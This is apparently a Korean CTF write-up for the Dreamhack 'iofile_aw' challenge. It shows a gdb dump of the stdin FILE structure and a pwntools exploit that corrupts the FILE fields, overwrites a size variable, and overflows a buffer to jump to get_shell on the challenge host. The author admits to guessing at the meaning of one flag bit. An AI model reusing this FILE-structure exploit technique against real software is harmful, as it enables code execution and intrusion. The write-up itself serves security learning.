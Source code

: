 gdb를 통해서 stdin 구조를 출력하면 다음과 같다.
```c
flag            0x00000000fbad208b
read ptr        0x00007ffff7dd1963
read end        0x00007ffff7dd1963
read base       0x00007ffff7dd1963
write base      0x00007ffff7dd1963
write ptr       0x00007ffff7dd1963
write end       0x00007ffff7dd1963
buf base        0x00007ffff7dd1963
buf end         0x00007ffff7dd1964
```
flag 값을 보면 0xfbad208b가 설정되어 있는데 b가 의미하는게 뭔지 잘 모르겠다. flag정보를 찾아보는데 잘 안나왔다. 그래서 익스플로잇 코드를 작성할 때 쓰기권한인 8을 주고 공격을 시도했다.

아래 공격코드를 이용했다.

```python
from pwn import *
context.update(arch='amd64', os='linux')

p = remote("host3.dreamhack.games", 10575);
#p = process("./oneshot", env={'LD_PRELOAD':'./libc.so.6'})
#p = process("./iofile_aw")
elf=ELF('./iofile_aw')

size = elf.symbols['size']
get_shell = elf.symbols['get_shell']

'''
flag            0x00000000fbad208b
read ptr        0x00007ffff7dd1963
read end        0x00007ffff7dd1963
read base       0x00007ffff7dd1963
write base      0x00007ffff7dd1963
write ptr       0x00007ffff7dd1963
write end       0x00007ffff7dd1963
buf base        0x00007ffff7dd1963
buf end         0x00007ffff7dd1964
'''

#payload1 = p64(0xfbad208b)
payload1 = p64(0xfbad2088) #flag b -> 8
payload1 += p64(0)   #read ptr
payload1 += p64(0)   #read end
payload1 += p64(0)   #read base
payload1 += p64(0)   #write base
payload1 += p64(0)   #write ptr
payload1 += p64(0)   #write end
payload1 += p64(size)    #buf base => size ptr

p.sendafter(b"# ", b"printf "+payload1)

#print(b"printf "+payload1)
#print(b"printf\x00"+payload1)

p.sendlineafter(b"# ", b"read")
p.sendline(p64(0x500))

pause()

payload2 = b"A"*(0x228-5)
payload2 += p64(get_shell)
p.sendlineafter(b"# ", b"exit\x00"+payload2)

```